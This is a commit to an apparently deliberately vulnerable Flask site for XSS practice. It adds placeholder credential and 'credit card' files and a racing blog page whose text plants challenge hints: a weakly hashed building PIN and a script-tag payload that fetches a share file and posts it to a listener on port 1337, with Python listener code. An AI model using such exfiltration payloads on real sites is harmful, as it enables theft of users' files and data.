
After one commit to ereiss123/XSS-Website, a Flask app: template templates/blog.html in a window 1280 px wide. The commit adds this page. Shown: the whole page at 83% size. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
update files

```diff
--- /dev/null
+++ b/passwords/pass.txt
@@ -0,0 +1 @@
+ceo:d1e0e95d050c57c23ff0f1c2941ee4700e41a1647058fd1f6d43f3bc92de462f
--- /dev/null
+++ b/share/credit_cards.csv
@@ -0,0 +1,4 @@
+NAME,TITLE,ACCOUNT
+Jeff Smith, Electrical Engineer, 12795231
+Jim Madsen, Human Resources, 58921423
+Tara Jensen, Warehouse Manager, 12417292
--- /dev/null
+++ b/templates/blog.html
@@ -0,0 +1,98 @@
+{% extends "base.html" %}
+{% block body %}
+<style>
+  body {
+    background: url('{{ url_for("static", filename="racing_background.png") }}')
+                no-repeat center center fixed;
+    background-size: cover;
+    font-family: 'Orbitron', sans-serif;
+    color: white;
+  }
+
+  .blog-container {
+    background: rgba(0, 0, 0, 0.8);
+    padding: 2em;
+    border-radius: 10px;
+    max-width: 800px;
+    margin: 2em auto;
+    box-shadow: 0 0 15px #e10600;
+    border: 2px solid #e10600;
+  }
+
+  h1, h2 {
+    color: #e10600;
+    text-shadow: 0 0 8px black;
+  }
+
+  p {
+    line-height: 1.5em;
+    font-size: 1.1em;
+    text-shadow: 0 0 4px black;
+  }
+
+  .meta {
+    font-size: 0.9em;
+    color: #bbb;
+    margin-top: -1em;
+    margin-bottom: 1em;
+  }
+</style>
+
+<div class="blog-container">
+  <h1>McLaren Performance Blog</h1>
+  <h2>Why Aerodynamics Wins Races</h2>
+  <p class="meta">Posted by Team Aero | June 2025</p>
+  <p>
+    In high-speed motorsport, drag isn't just an annoyance — it's the difference
+    between pole position and the midfield. Our 2025 chassis includes a redesigned
+    front wing with variable-angle elements that adapt at speed for optimal balance.
+  </p>
+  <p>
+    Combined with a ground-effect tunnel that maximizes downforce without drag
+    penalties, we’ve seen a consistent 0.3s improvement in sector 2 lap times.
+  </p>
+  <p>
+    Anyway here is the building pin. I can't just post it on the website, but here is a weak hash: 9cd6d894098e748716960bfcf9dbe115.
+    I wish my company appreciated me more.
+  </p>
+  <p> Can I just talk about my interests for a minute. No one ever listens to me. I was playing around with Javascript and discovered this one-liner that would look for a file called credit_cards.csv in a share folder and then dump the contents to anything listening on port 1337. I sure hope we don't have anything like that. Surely this company would not store the travel credit card numbers on a public facing website.
+<pre style="white-space: pre-wrap; word-break: break-word;"><code>
+&lt;script&gt;fetch('/share/credit_cards.csv').then(r =&gt; r.text()).then(d =&gt; fetch('http://127.0.0.1:1337/?cred_cards=' + encodeURIComponent(d), {method:'POST', mode:'no-cors', body:d}));&lt;/script&gt;
+</code></pre>
+
+<p> Then theoretically you could start a basic HTTP listener by running the following in the command line.</p>
+
+<pre style="white-space: pre-wrap; word-break: break-word;"><code class="language-python">
+python3 -m http.server 1337
+</pre></code>
+
+<p>If you want a more useful POST listener, then you can start one in python by writing something like this into a file called listener.py </p>
+
+<pre style="white-space: pre-wrap; word-break: break-word;"><code class="language-python">
+from http.server import HTTPServer, BaseHTTPRequestHandler
+
+class Listener(BaseHTTPRequestHandler):
+    def do_POST(self):
+        length = int(self.headers.get("Content-Length", 0))
+        body   = self.rfile.read(length).decode()
+        print("Received:\n", body[:200])
+        self.send_response(200)
+        self.end_headers()
+        self.wfile.write(b"ok")
+
+if __name__ == "__main__":
+    print("Listener started on port 127.0.0.1:1337")
+    print("Enter Ctrl-C to kill process")
+    HTTPServer(("0.0.0.0", 1337), Listener).serve_forever()
+</code></pre>
+
+<p> Then if you had listener.py in your working directory you could run </p>
+
+<pre style="white-space: pre-wrap; word-break: break-word;"><code class="language-python">
+python3 listener.py
+</code></pre>
+
+<p> Alternatively, you could start a python3 shell by typing python3 into a Linux terminal and then paste the above codeto run it </p>
+
+</div>
+{% endblock %}
```
Also changed, not shown: templates/challenge1.html (+6 -6 lines), 1 other file.
